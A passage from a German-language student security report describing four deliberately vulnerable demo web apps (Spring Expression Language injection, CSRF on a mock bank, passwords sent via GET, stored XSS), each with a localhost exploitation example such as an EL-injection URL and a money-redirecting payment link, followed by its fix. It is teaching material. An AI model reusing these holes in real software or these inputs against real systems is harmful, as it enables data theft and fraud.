Netzwerk für mehrere Stunden deaktivieren und verärgerte dadurch zahlreiche zahlende Kunden.

Quelle: 
\url{http://www.golem.de/news/sql-injection-sicherheitsluecke-erlaubt-zugriff-auf-sony-kundendaten-1410-110199.html}
\url{http://news.softpedia.com/news/New-SQL-Injection-Flaw-Puts-Sony-PlayStation-User-Data-At-Risk-463818.shtml}
\url{https://tarnkappe.info/psn-network-mit-kritischer-sicherheitsluecke/}

Viele viele weitere SQL-Injection-Angriffe finden sich auf der Webseite:
\url{http://codecurmudgeon.com/wp/sql-injection-hall-of-shame/}

\subsection{APP 1}
\textbf{{\large Schwachstelle:} Using Components with Known Vulnerabilities}\\
\emph{Autor: Grosslicht Patrick\\Matrikelnummer: 1227085}

In diesem Programm wird das Spring Framework v3.0.5 benutzt, eine Version mit bekannten Schwachstellen, in diesem Fall einer sogenannten \textbf{remote code with Expression Language injection}. Das Problem ist, dass Expression Language in gewissen Tags doppelt evaluiert wird.

Die genaue Fehlerstelle ist in \textbf{org.springframework.web.servlet.tags.MessageTag} zu finden.
\begin{lstlisting}[caption=Java,language=Java]
String resolvedVar = ExpressionEvaluationUtils.evaluateString("var", this.var, pageContext);
  if (resolvedVar != null) {
    String resolvedScope = ExpressionEvaluationUtils.evaluateString("scope", this.scope, pageContext);
    pageContext.setAttribute(resolvedVar, msg, TagUtils.getScope(resolvedScope));
  }
\end{lstlisting}
\begin{lstlisting}[caption=HTML,language=HTML]
<spring:message text="${param['message']}"></spring:message>
\end{lstlisting}
Dieser Code evaluiert den GET-Parameter \textbf{message} und schreibt diesen auf die Seite. Aufgrund der Schwachstelle wird dieser Parameter jedoch evaluiert und dann nochmal evaluiert, wodurch ein Angreifer seinen Code einschleusen kann.

Der Fehler ist leicht zu beheben, in dem man entweder auf v3.1.0+ updated, in dem dieses Verhalten automatisch aus ist, oder auf v3.0.6, dass eine Option zum Ausschalten dieses Features bietet. Außerdem könnte man eine Input-Validierung durchführen, bevor man die Expression Language evaluiert.

\subsubsection{Ausnutzung}
Um die Schwachstelle auszunutzen muss man den einzuschleusenden Code einfach als GET-Parameter \textbf{message} zu einem HTTP-Request an den Server schicken. Konkret würde das zum Beispiel so aussehen: \textbf{http://localhost:8080/?message=\$\{applicationScope\}}, was sensible Daten über den Server anzeigen würde.

In dem korrigierten Version wird Spring Framework v3.1.0 verwendet, die Expression Language Evaluierung standardmäßig deaktiviert hat.

Diese konkrete Schwachstelle war weit verbreitet, laut Statistiken von Sonatype wurden die anfälligen Versionen mehr als 1.4 Millionen mal von mehr als 22.000 Organisationen weltweit runtergeladen. \url{http://www.infosecurity-magazine.com/news/remote-code-vulnerability-in-spring-framework-for/}

Eine weitere sehr bekannte, ähnliche Schwachstelle ist der sogenannte Heartbleed-Bug, eine Schwachstelle in OpenSSL 1.0.1 - 1.0.1f. Dieser Bug ermöglichte es Angreifern zufällige Teile des Arbeitsspeichers auszulesen. Darin könnten Zugangsdaten, Bankkonten oder Private-Keys enthalten sein. Betroffen waren davon viele große Seiten sowie Programme, darunter auch Apache und nginx, welche weltweit von rund 66\% der Webseiten benutzt werden. \url{http://heartbleed.com/}

Auch große Seiten wie Yahoo, Stack Overflow, GitHub oder Reddit wurden Opfer dieses Bugs. \url{http://www.cnet.com/how-to/which-sites-have-patched-the-heartbleed-bug/}

\subsection{APP 2}

\textbf{{\large Schwachstelle:} Cross-Site Request Forgery (CSRF)}\\
\emph{Autor: Gall Alexander\\Matrikelnummer: 1225540}

In der dynamischen Website welche mit PHP(Version 5+) sowie HTML erstellt wurde ist ein CSRF Exploit eingebaut. Cross Site Request Forgery ist eine indirekte Angriffstechnik bei der die URL des Opfer 
verändert wird um bestimmte Aktionen auslösen. Diese Aktionen können das "harmlose" beenden einer Sitzung sein oder das verändern des Passworts, bis hin zum manipulieren des Systems des Opfers sein.

Bei dieser Website (\hyperref[fig:logo6]{siehe Abbildung~\ref*{fig:logo6} auf Seite~\pageref*{fig:logo6}}). handelt es sich um ein Online-Banking System bei welchen man auf 
sein Konto Geld einzahlen kann. Diese Einzahlung wird dann auf das Konto mit der Kontonummer des
Users gebucht. Die Kontonummer ist als hidden-Textfield auf der Seite gespeichert und wird mittels 
GET an das PHP-Skript zur Einzahlung gesendet.

\begin{figure}[h!]
  \centering
  \fbox{
    
\includegraphics[width=0.9\textwidth]{./imgs/safeBank.jpg}
  }
  \caption{SafeBank Website}
  \label{fig:logo6}
\end{figure}

Die Fehler die zu dem Exploit führen befinden sich in den skript \textit{account.php}.
In dem Skript ist bei Zeile 33 die Eingabe mittels GET gelöst.\\
\begin{lstlisting}[caption=HTML,language=HTML]
33: <form action="payment.php" method="GET">
\end{lstlisting}

Dadurch werden alle Eingaben in der URL gesendet was der Hacker ausnutzen kann und dadurch seine
Banknummer eingeben kann.
Auch kann das hidden-Field einfach in Firefox mittels "\textit{Element Untersuchen}" gefunden und umgeändert werden.
Bei der Eingabe der neuen Banknummer wird dann die Einzahlung in das Konto des Hackers gebucht.
Der Hacker musst dazu nur einen eingeloggten Kunden der Bank einen Link schicken der genau den beschriebenen
Exploit ausführt.\\
zB: \url{https://localhost/insecure/payment.php?payment=100&bankAccountNr=6666}\\
Die zweite Möglichkeit währe die Benutzereingabe des Kunden zu stehlen.
Aus diesem Grund wir, im Gegensatz zur Unsicheren Version der Website, in der sicheren Variante das Passwort des Kunden zusätzlich gehashed.

\textbf{Schwachstelle ausführen:}\\
Als erstes muss die HTML Seite \textit{login.html} aufgerufen werden.
Auf der Login Seite kann man sich dann mit dem Benutzernamen: \textit{admin} und den Passwort: \textit{admin} einloggen.\\
(Für das Hackerkonto kann man sich mit den Benutzernamen: \textit{hacker} und Passwort: \textit{hacker} einloggen)
Wenn man sich eingeloggt hat kann man auf der Account Seite den Betrag zum einzahlen angeben.
Hier kann man entweder mit Firefox und Rechtsklick "\textit{Element Untersuchen}" das hidden-Field auf 6666 umändern, oder man gibt einen Betrag an klickt auf einzahlen und ändert auf der erscheinenden Seite die URL von $bankAccountNr=5000$ auf $bankAccountNr=6666$.
Dadurch wird das Geld auf den Account des Hackers übertragen und von den derzeitigen angemeldeten User abgezogen. Um sich nun den Kontostand des Hackers anzuschauen kann man entweder auf dessen Account wechseln oder man öffnet das \textit{user\_bankaccount.txt} File. Hier sieht man USERNAME|KONTONUMMER|KONTOSTAND aufgelistet.

Das \textbf{Sichere Programm} unterscheidet sich in zwei Bereichen.\\
In dem Skript \textit{account.php} ist bei Zeile 33 die Eingabe mittels POST gelöst.\\
\begin{lstlisting}[caption=HTML,language=HTML]
33: <form action="payment.php" method="POST">
\end{lstlisting}
Dadurch wird die Eingabe nicht in der URL sichtbar und der mögliche Angreifer erhält keine zusätzlich
Information und Zugriffsmöglichkeit.
Weiters wurde das hidden-Field entfernt wodurch es nicht mehr manipulierbar ist. Um trotzdem die Banknummer
zu finden wurde das PHP Skript \textit{payment.php} verändert und ein \textit{user\_banknumber.txt} File erstellt in dem die Banknummer
zum jeweiligen User gespeichert ist (Der User wird über die Session gefunden).
In \textit{payment.php} in Zeile 94 wurde die Funktion \textit{"getBankAccountNr"} erzeugt welche aus den \textit{user\_banknumber.txt} File die Kontonummer ausliest. Dadurch kann der Hacker die Nummer nicht mehr manipulieren (außer er hat Zugriff auf den Server).

{\large \textbf{Kürzliche CSRF Schwachstellen:}}

\emph{Schwachstelle vom 27.05.2015}\\
Bei der \textit{Synologys Web-Fotoalbum Photo Station} einer Software für die DiskStation NAS-Geräte konnte 
durch einen Exploit beliebiger Code auf dem eigenen NAS ausgeführt werden.
Nachdem die Opfer auf eine präparierte Webseite gelockt wurden konnten die Angreifer mittels manipulierten POST-Requests 
beliebigen Code auf den gerät ausführen.
Der Exploit über CSRF war möglich da die Software die Parameter aus dem Request ungeprüft über den exec()-Befehl von PHP ausführte.
Da diese Schwachstelle schon länger vorhanden war konnten die Angreifer auf alle in den NAS Gerät gespeicherte Daten zugreifen.

\url{http://www.heise.de/security/meldung/Jetzt-patchen-Synology-NAS-ueber-Fotoalbum-angreifbar-2668853.html}

\emph{Schwachstelle vom 27.02.2015}\\
Ein Service-Provider und seine Kunden in Brasilien wurden Opfer einer Typischen CSFR Attacke.
Die Nutzer wurden gezielt mit Phishing-Spam bombadiert in denen manipulierten Links getarnt als 
authentisch Mails des Providers vorhanden waren.
Ein Klick auf die URL löste die CSRF Attacke aus die und standardmäßigen Logindaten des eigenen Routers wurden 
in dessen Interface eingegeben. Dadurch bekamen die Angreifer Kontrolle über den Router. 

\url{http://www.heise.de/security/meldung/l-f-Mal-wieder-DNS-Angriffe-auf-Router-2561028.html}

\subsection{APP 3}
\textbf{{\large Schwachstelle:} Sensitive Data Exposure }\\
\emph{Autor: Gubic Matthias\\Matrikelnummer: 1226342}

Bei meiner implementierten Schwachstelle handelt es sich um Sensitive Data Exposure. Diese Attacke befasst sich mit dem unsicheren umgehen von wichtigen Daten, wie Kontonummern, Credentials und Id's. Grund dafür ist eine schwache Verschlüsselung, ein falscher Transport oder ein fahrlässiges Umgehen mit den weitergegebenen Daten intern, sowie extern. Dieser Angriff ist laut OWASP der 6. häufigste Angriff im Jahr 2013 gewesen.

Mein Programm ist eine Website, die mit PHP geschrieben wurde und zeigen soll, wie ein Webserver mit den Credentials eines Users umgehen kann. Im unsicheren Teil, wird die GET-Methode zur Übergabe der Passwörter nach einem Passwortwechsel gewählt. Hacker, die das Netzwerk mitsniffen, bekommen somit die Passwörter in der URL im Klartext gesendet und können den Benutzeraccount übernehmen.

Die Schwachstelle hierbei befindet sich im Code:
\begin{itemize}
\item Zeile 15 im Dokument "changepw.html"
\item Zeile 9, 10 und 11 in "changepw.php"
\end{itemize} 

In der sicheren Variante, werden die Passwörter mit der POST-Methode versendet, sodass diese in der URL nicht mehr erkennbar sind. Somit kann der Hacker nicht mehr so einfach auf die Benutzerdaten zugreifen. Eine weitere Möglichkeit wäre es die Passwörter vor der Übertragung zu verschlüsseln, sodass selbst das Auslesen der verschlüsselten Daten dem Hacker nichts bringt, sollte ein geeigneter Verschlüsselungsalgorithmus gewählt worden sein.

Die ausgebesserte Schwachstelle hierbei befindet sich auch im Code in denselben Zeilen:
\begin{itemize}
\item Zeile 15 im Dokument "changepw.html"
\item Zeile 9, 10 und 11 in "changepw.php"
\end{itemize} 

Wichtige Punkte, die beachtet werden müssen, um die sensiblen Daten zu schützen sind:

\begin{itemize}
\item Verschlüssle die sensiblen Daten immer vor der Übertragung und beim Speichern
\item Speichere Daten nicht unnötig zwischen
\item Zum Verschlüsseln verwende lange Schlüssel und ein geeignetes Verfahren
\item Gespeicherte Passwörter sollen mit einem speziell dafür ausgelegten Algorithmus gespeichert werden.
\item Autovervollständigung sollte nie verwendet werden, da sie unnötiges Speichern repräsentiert.
\end{itemize}

Kürzlich gefundene Verfälle:

Vor ziemlich genau zwei Jahren schafften es Hacker aus China sensible Daten von Google zu stehlen. Diese Hacker konnten auf die Datenbank zugreifen, die Daten der letzten Jahre über gewisse Überwachunsziele enthielt. 

\url{http://www.valuewalk.com/2013/05/chinese-hackers-attack-on-google-exposed-sensitive-data/}

Data-leaks gibt es immer wieder, die aufgrund vernachlässigter Sicherheiteinstellungen, fehlender Updates, schlechte Verschlüsselung zustande kommen. Im November 2014 wurde Sony das Ziel einiger Hacker. Diese entwendeten eine große Menge an Daten über unveröffentlichte Filme, die Angestellten und die Schauspieler. Dieser Hack auf den internationalen Konzern war aber im letzten Jahr nicht einmal so groß, sodass er es in die Top 10 geschafft hat. Den Bericht und eine Liste der wirklich großen Verbrechen finden sie angehängt:

\url{http://www.huffingtonpost.com/kyle-mccarthy/32-data-breaches-larger-t_b_6427010.html}

Ebay führt diese Liste an, gefolgt von J.P. Morgan Chase und The Home Depot.

\url{http://www.idigitaltimes.com/10-largest-data-breaches-2014-sony-hack-not-one-them-403219}


\subsection{APP 4}

\textbf{{\large Schwachstelle:} Cross-Site-Scripting (XSS)}\\
\emph{Autor: Roy Brichta\\Matrikelnummer: 0627867}

Cross-Site-Scripting ist eine Familie von Attacken bei denen der Angreifer in der Lage ist, schadhaften Code an den Web Browser der Opfer zu liefern, der dort auch ausgeführt wird. Damit diese Attacke funktioniert, muss der Angreifer den schadhaften Code in die Web-Applikation einführen. Die Web-Applikation muss anschließend den Code an den Web-Browser der Opfer schicken, ohne ihn zuvor zu validieren oder zu escapen. Abschließend wird der Code im Web-Browser der Opfer ausgeführt. Es gibt verschiedene Arten, um den Code in die Web-Applikation zu schleusen. 

Ein häufiges Beispiel für die Ausnutzung dieser Schwachstelle lag in Web-Foren, in die die Angreifer schädlichen Code einschleusen konnten, indem sie ihn ihren Signaturen hinzufügten. Wenn sie dann in einen Thread gepostet haben, wurde die Signatur jedem Betrachter angezeigt und somit der schädliche Code ausgeführt. Diese Attacke kann dem Angreifer verschiedene Optionen bieten. Beispielsweise kann der Code sensible Daten aus dem Browser (bspw. Cookies) auslesen und an sich selbst schicken.

Bedeutende Angriffe auf Web-Applikationen, die XSS nutzen wurden auf u.A. TripAdvisor sowie Uber durchgeführt. Bei beiden Fällen wurden von Nutzern eingegebene Daten nicht validiert und somit schadhafte Scripts ausgeführt. XSS gilt als eine der häufigst angewendeten Angriffe auf Webseiten.

In meinem Beispiel verwende ich eine simple Web-Applikation, die es erlaubt, Kommentare zu speichern sowie das letzte gespeicherte Kommentar anzuzeigen. Die Kommentare werden im "commentWriter.php" in die Applikation eingefügt, indem sie als GET - Parameter mit Namen "comment" übergeben werden. Der Angriff findet dann statt, wenn ein Opfer "lastComment.php" ausführt und das letzte Kommentar eine Script-Anweisung enthält. In dem Fall wird dieses Script an den Web-Browser des Opfers geschickt und ausgeführt. Dies geschieht im Code in der Datei "lastComment.php" in Zeile 11, bei der das Kommentar ohne Validierung und Escaping ausgegeben wird. Als Datenbank für die Kommentare wird eine Textdatei verwendet, die das jeweils letzte Kommentar in die 1. Zeile schreibt und die weiteren Kommentare eine Zeile nach unten schiebt. Bei der Ausgabe der Kommentare wird die 1. Zeile der Textdatei ausgegeben.

Da das Problem in meinem Beispiel darin besteht, dass Userinput unüberprüft gespeichert und wiedergegeben wird, kann das Problem gelöst werden, indem man den Userinput bei der Eingabe validiert, bspw. indem man die Kommentare auf "<script>" durchsucht. Eine weiter Lösung besteht darin, Userinput nur als Text auszugeben, damit kein ausführbarer Code entsteht. Ich habe mich für die 2. Lösung entschieden, indem ich an der oben beschriebenen Stelle "htmlentities()" verwendet habe, um das Kommentar in eine HTML - Entität überzuführen (Escaping).

\emph{Verwendete Quellen}\\
\url{https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)}
\url{https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)}
\url{http://www.tripwire.com/state-of-security/security-data-protection/xss-vulnerabilities-found-on-tripadvisor-and-uber-websites/}
\url{http://www.techweekeurope.co.uk/security/firewall/dangerous-xss-vulnerabilities-found-trip-advisor-website-157156}
\url{http://www.cgisecurity.com/xss-faq.html}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{document}


